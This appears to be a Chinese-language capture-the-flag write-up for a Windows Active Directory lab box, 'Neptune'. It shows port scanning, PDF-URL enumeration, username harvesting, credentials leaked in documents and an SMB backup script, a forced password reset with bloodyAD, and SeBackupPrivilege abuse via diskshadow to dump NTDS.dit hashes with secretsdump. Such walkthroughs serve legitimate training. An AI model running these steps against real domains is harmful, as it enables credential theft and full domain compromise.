










## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.10 -sV -A -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title:  Neptune 
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-08 07:26:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: neptune.thl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: neptune.thl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
53459/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
53460/tcp open  msrpc         Microsoft Windows RPC
53470/tcp open  msrpc         Microsoft Windows RPC
53479/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:37:4E:C0 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|11|2016 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (97%), Microsoft Windows 11 21H2 (91%), Microsoft Windows Server 2016 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-08T07:27:27
|_  start_date: N/A
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:37:4e:c0 (Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

修改**/etc/hosts**

```
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

192.168.56.10   neptune.thl dc01.neptune.thl
```

## User Enum

这里存在一个**PDF**的访问链接，并且是以时间作为文件名格式，因此可以写一个脚本进行遍历

```
import os
import requests
from datetime import datetime, timedelta

base_url = "http://neptune.thl/docs/{date}.pdf"
start_date = datetime(2023, 1, 1)
end_date = datetime(2025, 12, 31)

save_dir = "downloads"
os.makedirs(save_dir, exist_ok=True)

current = start_date
while current <= end_date:
    date_str = current.strftime("%Y-%m-%d")
    url = base_url.format(date=date_str)
    filename = os.path.join(save_dir, f"{date_str}.pdf")

    try:
        response = requests.get(url, timeout=10)
        if response.status_code == 200:
            with open(filename, "wb") as f:
                f.write(response.content)
            print(f"Downloaded: {date_str}")
        else:
            print(f"Not found: {date_str}")
    except Exception as e:
        print(f"Error on {date_str}: {e}")

    current += timedelta(days=1)
```

再用**exiftool**提取用户名

```
exiftool -Creator -s3 *.pdf | grep -v '^========' |sort | uniq > names.txt
```

用**kerbrute**进行用户枚举

```
[root@kali] /home/kali/BlackGOld  
❯ kerbrute userenum -d neptune.thl ./names.txt --dc 192.168.56.10                                        

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/08/25 - Ronnie Flathers @ropnop

2025/04/08 15:56:26 >  Using KDC(s):
2025/04/08 15:56:26 >   192.168.56.10:88

2025/04/08 15:56:26 >  [+] VALID USERNAME:       Lucas.Miller@neptune.thl
2025/04/08 15:56:26 >  Done! Tested 87 usernames (1 valid) in 0.022 seconds
```

这里爆破密码失败，尝试在**pdf**中寻找密码

```
[root@kali] /home/kali/BlackGOld/downloads  
❯ pdfgrep -i 'Lucas' ./*                                                                                                                                                                                      ⏎
./2023-01-12.pdf:Estimado Lucas Miller,
./2023-01-12.pdf:   ● Nombre de usuario (Usuario AD): lucas.miller@neptune.thl
```



得到密码是：**E@6q%TnR7UEQSXywr8^@**

## Bloodhound

```
[root@kali] /home/kali/BlackGOld  
❯ bloodhound-python -u 'Lucas.Miller' -p 'E@6q%TnR7UEQSXywr8^@' -d neptune.thl -ns 192.168.56.10 -c all --zip   
INFO: Found AD domain: neptune.thl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.neptune.thl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.neptune.thl
INFO: Found 8 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.neptune.thl
INFO: Done in 00M 00S
INFO: Compressing output into 20250408160411_bloodhound.zip
```

找到一些其他用户



## Own Victor

通过**RPC**查询到**Victor**的密码



更新一下**bloodhound**

```
[root@kali] /home/kali  
❯ bloodhound-python -u 'VICTOR.RODRIGUEZ' -p 'H5gVCzzZkzJ#wGsT8u1$' -d neptune.thl -ns 192.168.56.10 -c all --zip
INFO: Found AD domain: neptune.thl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.neptune.thl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.neptune.thl
INFO: Found 8 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.neptune.thl
INFO: Done in 00M 00S
INFO: Compressing output into 20250408161249_bloodhound.zip
```

## Own Emma

注意到**Victor**是**IT**组的





连接到**smb**，获取到了一个脚本

```
$sourceDirectory = "C:\Confidenciales"
$destinationDirectory = "E:\Backups\Confidenciales"

$username = "emma.johnson"
$password = ConvertTo-SecureString "sb9TVndq8N@tUVMmP2@#" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)

$emailFrom = "emma.johnson@neptune.thl"
$emailTo = "emma.johnson@neptune.thl"
$smtpServer = "smtp.neptune.thl"
$smtpPort = 587
$emailSubject = "Notificación de Backup Completo"

$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "report_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName

function Send-EmailNotification {
    param (
        [string]$subject,
        [string]$body
    )
    try {
        $smtpClient = New-Object System.Net.Mail.SmtpClient($smtpServer, $smtpPort)
        $smtpClient.EnableSsl = $true
        $smtpClient.Credentials = New-Object System.Net.NetworkCredential("smtp_user", "smtp_password")

        $mailMessage = New-Object System.Net.Mail.MailMessage($emailFrom, $emailTo, $subject, $body)
        $smtpClient.Send($mailMessage)
        Write-Host "Correo enviado a $emailTo"
    }
    catch {
        Write-Host "Error al enviar el correo: $_"
    }
}

try {
    Write-Host "Iniciando el backup..."
    Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
    Write-Host "Backup completado exitosamente. Archivo guardado en: $backupFilePath"

    $emailBody = "El proceso de backup se ha completado correctamente." + "`n" + "Archivo de backup: $backupFilePath"

    Send-EmailNotification -subject $emailSubject -body $emailBody
}
catch {
    Write-Host "Error al realizar el backup: $_"

    $errorSubject = "Error en el proceso de Backup"
    $errorBody = "Hubo un problema al realizar el backup." + "`n" + "Error: $_"
    Send-EmailNotification -subject $errorSubject -body $errorBody
}#                                                                                                                                                                                         
```

得到了**emma.johnson**的密码，可以直接登录



这里需要重新导入一下靶机，才能看到利用权限

## Own Thomas



改一下他的密码

```
[root@kali] /home/kali/BlackGOld  
❯ bloodyAD --host "192.168.56.10" -d "neptune.thl" -u 'emma.johnson' -p 'sb9TVndq8N@tUVMmP2@#'  set password 'THOMAS.BROWN' 'Hello123!'                                                                       ⏎
[+] Password changed successfully!
```

查看一下权限，经典的**SeBackupPrivilege**



## Diskshadow

下面的方法同[HTB-Blackfield - HYH](https://www.hyhforever.top/htb-blackfield/)

```
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
diskshadow.exe /s c:\temp\diskshadow.txt
```

然后备份**ntds**，下载

```
robocopy /b Z:\Windows\NTDS C:\temp NTDS.dit
download C:\temp\NTDS.dit
```

解密得到**hash**

```
[root@kali] /home/kali/
❯ impacket-secretsdump  -system system.bak -ntds ntds.dit LOCAL 
```



最后成功提权



## Summary

`User`：**pdf**遍历泄露密码，**rpc**用户信息泄露，最后通过**smb**拿到**emma**用户。

`Root`：经典的**backup operator**组提权。

下面补充一个知识点

**`SAM` 文件只包含本地账户的 Hash**，适用于非域控（比如普通 Windows 机器）。

**`NTDS.dit` 是域控数据库**，包含 **所有域用户** 的密码 Hash（更关键、更有用）。

**`SYSTEM` 文件包含加密密钥**，无它无法解密 Hash。
